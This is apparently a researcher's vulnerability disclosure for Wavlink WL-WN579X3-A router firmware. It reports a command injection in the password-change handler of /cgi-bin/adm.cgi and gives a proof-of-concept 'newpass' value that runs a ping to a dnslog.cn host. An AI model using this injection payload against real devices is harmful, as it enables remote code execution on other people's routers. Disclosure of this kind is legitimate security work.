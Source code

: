 
A issue was dicovered on wavlink device with firmware at least from M79X3.V5030.180530 to M79X3.V5030.201201(newest version for now).   

A remote attacker can execute arbitrary code by sending  a crafted POST request to /cgi-bin/adm.cgi.    


## Intro 

When I was trying to analyze CVE-2020-10971，I downloaded the newest WL-WN579X3-A firmware posted on the official website of Wavlink.   

Firmware: https://www.wavlink.com/en_us/firmware/details/3a4d65ad3d.html  

After I checked all the code branches, I couldn't find the CVE-2020-10971, then I find a more old version firmware on the internet, I do notice that there was a RCE problem at adm.cgi correspond to https://james-clee.com/2020/04/18/multiple-wavlink-vulnerabilities/ .     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/5.png?raw=true)   

However I notice another RCE at the code branch which is responsible for handling password changes.  

Older versions of the firmware do not have this problem, but newer versions has RCE problem when the web server are handling the request for changing the password from authenticated user.  

## The problem code    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/6.png?raw=true)    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/7.png?raw=true) 

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/8.png?raw=true) 


## POC  

It not just affect the newest firmware, but alse the older version (at the newest version, serveral IP checks made the attacker can only use the RCE in adjacent networks).  

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/1.png?raw=true)     

Set the 'newpass' value as %60ping%20-c%201%203vkslf.dnslog.cn%60 (\`ping -c 1 3vkslf.dnslog.cn\`)     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/9.png?raw=true)   

After I sended the POST request, DNSlog platform had the records   

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/10.png?raw=true) 







